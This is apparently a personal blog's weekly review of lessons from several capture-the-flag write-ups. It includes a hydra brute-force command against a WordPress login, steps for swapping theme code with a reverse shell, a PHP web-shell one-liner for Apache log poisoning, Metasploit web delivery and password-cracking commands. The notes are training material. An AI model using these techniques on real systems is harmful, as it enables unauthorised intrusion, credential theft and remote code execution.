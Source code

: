 ```yaml
---
title: Weekly Review 1
date: 2023-10-08
categories: [Review]
tags: [hydra, interactiveshell, wordpress, containerescape, logpoisoning]
img_path: /assets/review/
mermaid: true
---
```

> This is an overview of what I learned through the week, mostly things I encountered for the first time or simply wanted to revise.

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login **error message**. 
2. Capture POST request with Burp and get its **params**.
3. Try building a **username list** by using static pass.
4. If user(s) found, try the reverse to **crack pass**. 

 ```shell
 hydra -L <username_list> -p <static_pass> <target-ip> http-post-form "/<login_dir>:log=^USER^&pwd=^PASS^:F=<error message>" -t 30
 ```
   
 ### RCE on WordPpress
 
 1. We need admin acc for accessing Appearance --> **Editor**.
 2. Replance an appropriate, i.e. least used, Editor PHP script with reverse shell code. 
 
 ## Interactive terminal with Python
 
 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```
 
 ## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
 ### Log Poisoning
 
 1. **NULL Byte** usage: `%00` / `&`.
 2. If a `../` attack is possible in an Apache web server, we can target its **log file**, usually, under `/var/log/apache2/access.log`.
 3. Modify the **User-Agent** of the captured request by replacing it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
 
 ### Container Escape
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).
 
 ## [Nax](https://cspanias.github.io/posts/Nax-Write-Up-(2023)/)
 
 ### Nagios XI
 
 Boosted Crontab used in DevOps for monitoring and generating alerts when something goes wrong (`/nagiosxi`).
 
 ### Piet Programming Language
 
 We can pass it `.ppm` files and get back chars.
 
 ## [Git Happens](https://cspanias.github.io/posts/Git-Happens-Write-Up-(2023)/)
 
 ### GitTools
 We can download and manipulate public-facing repos (`/.git`) with GitTools.
 
 ### Chaining commands
 ```shell
 # use " " as delimiter and pick the second field
 cut -d " " -f2
 
 # converts standard input into args to a command
 xargs
 ```
 
 ## [Tomghost](https://cspanias.github.io/posts/Tomghost-Write-Up-(2023)/)
 
 ### Apache Tomcat
 
 Apache Tomacat is a **web container** that can also be used as an HTTP(S) server. **Ghostcast** is a known vuln: if the *Apache Jserv Protocol (AJP)* is exposed (port 8009), we can read files from Tomcat's dirs. 
 
 ### GPG Encryption
 
GPG is a file encryption tool. 
```shell
# decrypt file
gpg -d <file.pgp>

# gpg file for John
gpg2john <file.asc> > new_file

# in case we need to pass a key to gpg
gpg --import <file.asc>
```